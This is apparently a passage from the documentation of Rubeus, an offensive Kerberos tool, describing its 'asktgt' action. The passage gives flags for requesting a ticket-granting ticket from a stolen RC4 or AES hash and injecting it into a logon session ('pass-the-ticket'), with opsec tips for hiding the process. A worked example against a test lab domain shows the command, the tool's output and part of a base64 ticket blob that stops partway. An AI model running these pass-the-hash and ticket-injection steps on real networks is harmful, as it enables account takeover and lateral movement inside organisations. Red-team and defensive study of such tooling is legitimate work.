 
### asktgt

The **asktgt** action will build raw AS-REQ (TGT request) traffic for the specified user and encryption key (`/rc4`, `/aes128`, `/aes256`, or `/des`). A `/password` flag can also be used instead of a hash - in this case `/enctype:X` will default to RC4 for the exchange, with `des|aes12aes256` as options. If no `/domain` is specified, the computer's current domain is extracted, and if no `/dc` is specified the same is done for the system's current domain controller. If authentication is successful, the resulting AS-REP is parsed and the KRB-CRED (a .kirbi, which includes the user's TGT) is output as a base64 blob. The `/ptt` flag will "pass-the-ticket" and apply the resulting Kerberos credential to the current logon session. The `/luid:0xA..` flag will apply the ticket to the specified logon session ID (elevation needed) instead of the current logon session.

Note that no elevated privileges are needed on the host to request TGTs or apply them to the **current** logon session, just the correct hash for the target user. Also, another opsec note: only one TGT can be applied at a time to the current logon session, so the previous TGT is wiped when the new ticket is applied when using the `/ptt` option. A workaround is to use the `/createnetonly\X.exe` parameter (which hides the process by default unless the `/show` flag is specified), or request the ticket and apply it to another logon session with `ptt /luid:0xA..`.

Requesting a ticket via RC4 hash for **dfm.a@testlab.local**, applying it to the current logon session:

 C:\Rubeus>Rubeus.exe asktgt /user:dfm.a /rc4:2b576acbe6bcfda7294d6bd18041b8fe /ptt

 ______ _
 (_____ \ | |
 _____) )_ _| |__ _____ _ _ ___
 | __ /| | | | _ \| ___ | | | |/___)
 | | \ \| |_| | |_) ) ____| |_| |___ |
 |_| |_|____/|____/|_____)____/(___/

 v1.4.1

 [*] Action: Ask TGT

 [*] Using rc4_hmac hash: 2b576acbe6bcfda7294d6bd18041b8fe
 [*] Using domain controller: PRIMARY.testlab.local (192.168.52.100)
 [*] Building AS-REQ (w/ preauth) for: 'testlab.local\dfm.a'
 [+] TGT request successful!
 [*] base64(ticket.kirbi):

 doIFmjCCBZagAwIBBaEDAgEWooIErzCCBKthggSnMIIEo6ADAgEFoQ8bDVRFU1RMQUIuTE9DQUyiIjAg
 oAMCAQKhGTAXGwZrcmJ0Z3QbDXRlc3RsYWIubG9jYWyjggRlMIIEYaADAgESoQMCAQKiggRTBIIETwrl
 zIpKjTT11eteJCn+0rtlKwtTW/8XvoWXy61rOCrOIo16YPiMe4usXoJaOqsvCydMgd6955hT+IoFMyGG
 VfVxetoM1Oa5aPA2sfzJeogn4RpFBoY5vjjKBzPaTJptPRX7Wjg0o1FTszJET4mhQyLKxQMgprKcc2mz
 yniQzGPI19O95aSoPpNar+4lKlyBsL4QjSEeBdZQ2/Ab1JVu3eh1xCsWkKUUlabbzeZwo8SG0QkZ0DKk
 qOD8hx5wbQ+w8emcLvHMIrmg1xO2OPngK76C3daeiS59UVADSz/n3H7Tfuk+EXSdZC4/c8KIZvHsC6
 cO/ymVFxyuRJLg7VThl8keZmbWzYei6xAwH7mUAUEA1lk0pEHx12nAHcKILsbS3F9wAcHMNEGe/Xa3UK
 INJ0q+JvdJpCPo/wgyu7wjKgsdpgUV0siVfpGaxG7yh6s3U2tAlBWnWdGF/Gy/FkOk/hJxhTTHcHa5XE
 LTaXY9cnraee+llJqmOnHfjPa5+XNTnVtBZjT0SPRnSXfdPG5BgiXYlCjr5ykhF8MdVE1Se+WtEZJuPj
 lYrCtWo2oEjBbYMb3YGTcWh5+oWNY1QdxSpyFc8IDQOTOCnQ+nsQf7hU7svTBm0b5AqqPD/olz1RYm
 f4qR+90TcASaQGwHUQbpFnLb2U9BHwNS+SlRwafFT5qlTmXaqoQMMjknospm0+v0U8hd8KbZ4jwK2hM+
 vE74bOiAMdjTf5YLDorRyuFUoa7oIaJZTXxsLmqZsBCsUnH5etXTb9vHj7Dl27wyP9snRHIWuE8Rdo9Z
 zAJK6PESaBcUqhKqkjWLUKDuT2+SCduPVF6+3QJB0xLJrwXKp/MiV418H/pHRoy6JkKKw2m1bw45P8Az
 l54g75WJqEiAzj/+I64TUfbEFJtd9OHujAKzjMMiKRQKwTKR1Jfb6gTrv6K0GCTJ15W84DeWc47jTutE
 HbWxuKib3niTTM5YcHZcN6h/V8Zef8r4fdhY20xGCwqlT9X5md96+647bRq/AZDtiAEaVAH5f3QTQen8
 o6XpVqSoZxRASEs3oKFfNunBFJ+QxOL4A47iO1JH0wlM7L2Vx+QeDMfqUh3i9S71YBLdHtPflo8ivmNS
 gf0dIeAE2rHRNQn+q7vvrl4r/Bxy3CikzBWnq9Nff8vUJmZ0MQBc4mBpykuuFtLuEJOELdUzW4uCF/9a
 JffKDnWk0lIDymImtxqTO0Y/mk0zEQ7RZNUIR3vtrNSO84CjZ/YFYCIdIR5wCzztPSZ0RH7C4lVueBO5
 ZoDiWYvPuOQsZHkP2XD+GQtu0hN6MOfLOKGVmNrKs1KRfWhbqnTQudjFSkvgHlgjIslKJDa6WzmSQhdW
 fPIA9ggjCmQtyB6seiYi9LdJuQ+GiiF2UphTEJ+a5DR6rGYbg4hhd+ru2Z8Lt5rBojliLnedafyZJ15t
 alU+n8aNdIPXfVmsR3caTXkncNBlo4HWMIHToAMCAQCigcsEgch9gcUwgcKggb8wgbwwgbmgGzAZoAMC
 ARehEgQQ+zY8adXi2NuvkAxl1ohUOKEPGw1URVNUTEFCLkxPQ0FMohIwEKADAgEBoQkwBxsFZGZtLmGj
 BwMFAEDhAAClERgPMjAxOTAyMjUyMzA2MDdaphEYDzIwMTkwMjI2MDQwNjA3WqcRGA8yMDE5MDMwNDIz